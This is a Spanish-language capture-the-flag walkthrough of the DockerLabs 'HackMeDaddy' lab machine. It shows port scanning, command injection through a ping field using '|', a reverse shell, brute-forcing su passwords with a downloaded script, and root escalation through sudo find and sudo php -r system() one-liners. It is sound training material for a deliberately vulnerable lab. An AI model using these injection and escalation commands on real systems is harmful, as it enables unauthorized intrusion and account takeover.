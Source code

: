 Hoy maquina HackMeDaddy de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil

![Dock](./imagenes/Dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 19:21 -03
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 05:48:9d:f6:29:e1:dd:c4:f6:18:87:ff:13:15:5a:80 (ECDSA)
|_  256 0a:3d:0d:c3:fe:4e:57:8a:de:1f:5f:3c:8e:92:e9:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: HackMeDaddy - Hacking \xC3\x89tico
| http-robots.txt: 3 disallowed entries 
|_/FLAG.txt /joomla/* /secret/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

Como vemos no hay nada interesante, solo esta abierto el puerto 22 y 80 pero nada interesante.

### PUERTO 80:

![80](./imagenes/80.png)

En un principio no hay nada interesante, por lo que haremos un poco de fuzzing con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,sh,py,js,elf
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,sh,py,js,elf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 7036]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/info.txt             (Status: 200) [Size: 123]
/flag.txt             (Status: 200) [Size: 455]
/robots.txt           (Status: 200) [Size: 691]
Progress: 135528 / 1764488 (7.68%)
[!] Keyboard interrupt detected, terminating.
===============================================================
Finished
===============================================================
```

Lo único interesante es el archivo `info.txt` que nos habla de un `README.txt` y de un usuario llamado "Eliot", por lo que si vemos un poco la página principal en un momento se ejecuta un comando que dice "cat README.txt" y tiene esto:

```ABAP
d05notfound exploit payload shell bruteforce vulnerability cipher zero-day phishing root port_scan firewall backdoor
```

Entonces probando si existe en el servidor vemos que si existe la carpeta `d05notfound` y contiene esto:
               ![d05notfound](./imagenes/d05notfound.png)

Pero lo único importante es que al final dice que se puede hacer un "ping". Ahora abriremos el burpsuite y capturamos la peticion al poner `-c 1 google.com`, damos click derecho a la petición y damos click izquierdo en donde dice "Send To Repeater". Ahora vamos al repeater y le damos al "send" y en response ponemos "Raw", ahora, si bajamos vemos que si se ejecuta el ping y nos muestra esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.841/101.841/101.841/0.000 ms
```

como vemos, solo mando 1 porque pusimos "-c 1", por lo que tecnicamente ejecuta el comando directamente con "ping $INPUT", por lo que teniendo en cuenta eso podriamos intentar poner un ";" o "|" con otro comando como por ejemplo `ls -la`. Al presionar send vemos que el que funciona es "|" y nos devuelve esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 102.012/102.012/102.012/0.000 ms
</pre><h2>Resultado del Comando:</h2><pre>total 12
drwxr-xr-x 1 root root   30 Aug 13 14:42 .
drwxr-xr-x 1 root root   94 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Vemos que podemos ejecutar comandos remotamente con el signo "|".

# INTRUSION

Ahora que podemos ejecutar comandos vamos a la pagina de [revshells](https://www.revshells.com) y buscamos el de `python3 #2`, escuchamos con netcat en el puerto que elegimos y presionamos el send. *Ya estamos dentro*

### TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty y que no se nos cierre el terminal al persionar `ctrl+C` tenemos que ejecutar esta serie de comandos apenas entremos:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg #damos al enter y ponemos reset xterm y enter
export TERM=xterm && export SHELL=bash
```

Una ve hecho esto ya no se nos cerrará la terminal.

# ESCALADA DE PRIVILEGIOS

## www-data

Siendo el usuario "www-data" iremos a la home y veremos que podemos leer la carpeta "e1i0t". Entramos y luego a la carpeta "documents"; estando ahi vemos dos archivos, `agenda.txt  agenda_passwords.txt`, que al parecer ambos son una wordlist. Ahora hacemos un wget dentro de la carpeta `/tmp` al script [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y lo ejecutamos de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh e1i0t /home/e1i0t/documents/agenda.txt
```

Esto nos encuentra la contraseña del usuario `e1i0t` y escalamos con `su e1i0t` o directamente nos conectamos por ssh.

## e1i0t

Ahora ejecutamos `sudo -l` y vemos que podemos ejecutar el binario `find` como el usuario "an0n1mat0", por lo que buscamos en [GTFOBins](https://gtfobins.github.io/) y vemos que podemos escalar con:

```css
sudo -u an0n1mat0 find . -exec /bin/bash \; -quit
```

## an0n1mat0

Siendo el usuario "an0n1mat0" listamos lo que hay en nuestro directorio y vemos una nota que dice lo siguiente:

```ruby
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Si listamos en la raiz hay una carpeta llamada "secret", si la listamos vemos un archivo llamado "confidencial.txt" que tiene lo siguiente:

```css

There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Dice que hay un archivo llamado "passwords_users.txt", por lo que lo buscamos con el siguiente comando:

```css
find / -name "passwords_users.txt" 2>/dev/null
```

```css
/usr/local/bin/passwords_users.txt
```

Ahora lo leemos con cat y nos dice esto:

```css
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Vamos a nuestra maquina local y ejecutamos lo siguiente:

```css
crunch 12 12 abcdefghijklmnopqrstuvwxyz -o wordlist -t @@yanonymous
```

nos lo copiamos y lo creamos como wordlist en la maquina victima y ahora ejecutamos el script que antes nos guardamos con wget de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh an0n1mat0 /tmp/wordlist.txt
```

```css
Contraseña encontrada para el usuario an0n1mat0: XXXXXXXXX
```

Ahora que tenemos la contraseña de "an0n1mat0" podemos hacer un `sudo -l` y vemos que podemos ejecutar `php` como root, entonces simplemente ponemos:

```css
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

*y ya seriamos root*

![root](./imagenes/root.png)

Muy buena maquina, adiós...

